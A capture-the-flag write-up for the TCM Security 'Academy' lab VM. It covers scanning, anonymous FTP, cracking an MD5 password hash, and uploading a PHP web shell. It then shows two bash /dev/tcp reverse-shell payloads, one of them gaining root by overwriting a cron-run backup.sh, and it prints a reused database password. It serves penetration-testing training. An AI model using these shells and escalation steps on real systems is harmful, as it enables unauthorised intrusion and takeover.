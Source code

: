 # TCM Security - Academy
> Writeup for Academy machine challenge from PEH course of TCM Security

Challenge File: https://drive.google.com/drive/folders/1VXEuyySgzsSo-MYmyCareTnJ5rAeVKeH

---------------

<br>

Run `sudo netdiscover -r 192.168.0.0/24` before starting the target VM to capture all available devices in subnet \
now start the target VM and wait for new machine IP entry it will be the IP of our target VM.

Before starting the target VM 

![image](https://github.com/Aftab700/Writeups/assets/79740895/264f4aa5-62fd-47d0-bb51-88a1fe8211e7)

After starting the target VM 

![image](https://github.com/Aftab700/Writeups/assets/79740895/48ec1846-d9e4-4f40-a996-91b68db451f8)


Now that we have the target IP `192.168.0.113` let's run the `nmap`

<details><summary markdown="span">Click to see nmap result :diamond_shape_with_a_dot_inside: </summary>

```bash                                                                                                           
┌──(Jack㉿Sparrow)-[~/Downloads]
└─$  nmap -sC -sV -T5 192.168.0.113 -oA nmap_Academy.txt -Pn
Starting Nmap 7.93 ( https://nmap.org ) at 2024-02-02 13:58 EST
Warning: 192.168.0.113 giving up on port because retransmission cap hit (2).
Nmap scan report for 192.168.0.113
Host is up (0.0050s latency).
Not shown: 993 closed tcp ports (conn-refused)
PORT     STATE    SERVICE       VERSION
21/tcp   open     ftp           vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 1000     1000          776 May 30  2021 note.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.0.207
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp   open     ssh           OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 c744588690fde4de5b0dbf078d055dd7 (RSA)
|   256 78ec470f0f53aaa6054884809476a623 (ECDSA)
|_  256 999c3911dd3553a0291120c7f8bf71a4 (ED25519)
80/tcp   open     http          Apache httpd 2.4.38 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.38 (Debian)
1046/tcp filtered wfremotertm
1055/tcp filtered ansyslmd
1434/tcp filtered ms-sql-m
2038/tcp filtered objectmanager
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.39 seconds
```
</details>


Here we see that port `21,22,80` are open. 

In port 21 Anonymous FTP login is allowed  \
to see what files are present in this ftp we can open `ftp://192.168.0.113/` in windows File Explorer or we can also use curl

![image](https://github.com/Aftab700/Writeups/assets/79740895/94033cfd-6173-49d2-bc31-18b3621d137f)

![image](https://github.com/Aftab700/Writeups/assets/79740895/8028de5e-668e-4123-8aef-42e27cb07c85)


The note says `The StudentRegno number is what you use for login` which is `10201321` and
we have one password hash `cd73502828457d15655bbd7a63fb0bc8`. use tools like https://crackstation.net/ to crack the hash. \
This is md5 of `student`. \
now we have login credentials `10201321:student` note this for now and let's move to http site.

<br>

`http://192.168.0.113/` is Apache2 Debian Default Page

![image](https://github.com/Aftab700/Writeups/assets/79740895/d0094763-f520-4028-a338-0aca0d6cb604)


There is nothing much to see in this default page so let's do the directory brute force

<details><summary markdown="span">Click to see dirsearch result :diamond_shape_with_a_dot_inside: </summary>

```bash
┌──(Jack㉿Sparrow)-[~]
└─$ dirsearch -u http://192.168.0.113/ -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt 

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )
                                                                                                                                                                                                                                            
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 141672

Output File: /home/kali/.dirsearch/reports/192.168.0.113/-_24-02-04_03-17-49.txt

Error Log: /home/kali/.dirsearch/logs/errors-24-02-04_03-17-49.log

Target: http://192.168.0.113/

[03:17:49] Starting: 
[03:18:19] 301 -  319B  - /phpmyadmin  ->  http://192.168.0.113/phpmyadmin/
[03:19:57] 301 -  316B  - /academy  ->  http://192.168.0.113/academy/       
                                                                              
Task Completed
```

</details>

We found the `/phpmyadmin/` and `/academy/` directories

on the `http://192.168.0.113/academy/` page we have one login form

![image](https://github.com/Aftab700/Writeups/assets/79740895/8dcd96ba-f63a-4524-9ea6-95156c8ce0df)


Let's try the login credentials `10201321:student` that we found previously from ftp note.

![image](https://github.com/Aftab700/Writeups/assets/79740895/a36b56d4-987e-4e97-834f-f1f0fc105bf4)


It worked we are now logged in

On the My Profile page we have file upload functionality

try uploading simple php shell `<?php system($_REQUEST['cmd']); ?>` and it is not blocked we now have the ability to execute commands on server

![image](https://github.com/Aftab700/Writeups/assets/79740895/08e0c9d1-2522-4e8a-9fc3-4a19c13bc969)


we can get reverse shell by this payload `cmd=bash+-c+"bash+-i+>%26+/dev/tcp/192.168.0.207/9001+0>%261"` \
reference: https://www.revshells.com

![image](https://github.com/Aftab700/Writeups/assets/79740895/4dc9b13a-e0a3-4ff4-82fd-5a32fb2b0270)

![image](https://github.com/Aftab700/Writeups/assets/79740895/4cf54a48-a797-4c62-ae47-f0e3a7fa91a5)


In the config.php file we have the mysql_password `My_V3ryS3cur3_P4ss` and in the ftp note we show line `I told him not to use the same password everywhere` which implies 
that user Grimmie is reusing the same password so we can try to use this password to switch to user Grimmie

![image](https://github.com/Aftab700/Writeups/assets/79740895/a6efd8be-7132-4ee9-86b2-b44bcb917ba6)


looking at crontab we notice that `/home/grimmie/backup.sh` file is running as root and we can modify this file to get root access

![image](https://github.com/Aftab700/Writeups/assets/79740895/ee82ccab-380c-485d-855c-247e8e2e7dcc)


Reverse shell payload to get shell as root: 

`echo 'bash -c "bash -i >& /dev/tcp/192.168.0.207/9002 0>&1"' > backup.sh`

![image](https://github.com/Aftab700/Writeups/assets/79740895/0c2c4b55-7951-4637-ab07-86077b1ce395)

![image](https://github.com/Aftab700/Writeups/assets/79740895/b1a801aa-7b03-4d4d-849a-6a7532c95b22)


Flag:

![image](https://github.com/Aftab700/Writeups/assets/79740895/50dbf9b2-9236-4656-95ff-e7747b222a6c)

<br>

:octocat: Happy Hacking :octocat:
